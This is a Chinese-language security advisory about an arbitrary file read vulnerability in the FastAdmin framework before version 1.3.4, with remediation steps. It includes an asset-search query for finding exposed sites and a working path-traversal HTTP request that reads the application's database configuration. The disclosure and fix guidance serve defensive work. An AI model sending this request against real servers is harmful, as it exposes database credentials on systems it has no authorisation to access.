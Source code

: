#  FastAdmin任意文件读取漏洞   
原创 king  信安王子   2024-06-17 20:33  
  
 一、漏洞描述  
  
   FastAdmin是一款基于ThinkPHP+Bootstrap开发的快速后台开发框架，FastAdmin基于Apache2.0开源协议发布，免费且不限制商业使用，目前被广泛应用于各大行业应用后台管理。astAdmin框架存在任意文件读取漏洞，攻击者利用此漏洞可以获取系统敏感信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tE6IDCKyaDw6ziaqTjxXL3jLASrClXfdibwzuIhibFoAUVicIiax3nCHzicRUyOoWnEfliaE2cM80ChVtwiaia71EkN5c9w/640?wx_fmt=png&from=appmsg "")  
  
 二、影响版本  
  
FastAdmin版本 < 1.3.4  
  
三、资产测绘  
  
app="FASTADMIN-框架"  
  
 四、漏洞复现  
```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1

Host: 

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tE6IDCKyaDw6ziaqTjxXL3jLASrClXfdibdLBY5S3I00JKp0lxqCTgf8ic7e5IibruBsuJCNKVOw6icp4LhFPiaTwRiaQ/640?wx_fmt=png&from=appmsg "")  
### 五、快速修复方法  
  
如果站点不使用多语言，可以通过修改application/config.php大概第45行的lang_switch_on的对应值修改为false即可。  
### 六、手动修复方法  
  
打开application/common/behavior/Common.php，添加以下代码  
```
    public function appInit()
    {
        $allowLangList = Config::get('allow_lang_list') ?? ['zh-cn', 'en'];
        \think\Lang::setAllowLangList($allowLangList);
    }
```  
  
如图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tE6IDCKyaDw6ziaqTjxXL3jLASrClXfdibXWSKsouKTxepniboF7RLdicQ08RXW7R0PUvU5hY6iaep86DEjfsyF4fxg/640?wx_fmt=png&from=appmsg "输入图片说明")  
  
然后打开application/tags.php，在app_init对应的数组中添加以下代码  
```
'app\\common\\behavior\\Common',
```  
  
如图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tE6IDCKyaDw6ziaqTjxXL3jLASrClXfdibNXHHn5kN31Uicp4bM3vXgTBwSjh9uEBz0wYToaJeCEY8byN5zVicmvSw/640?wx_fmt=png&from=appmsg "输入图片说明")  
  
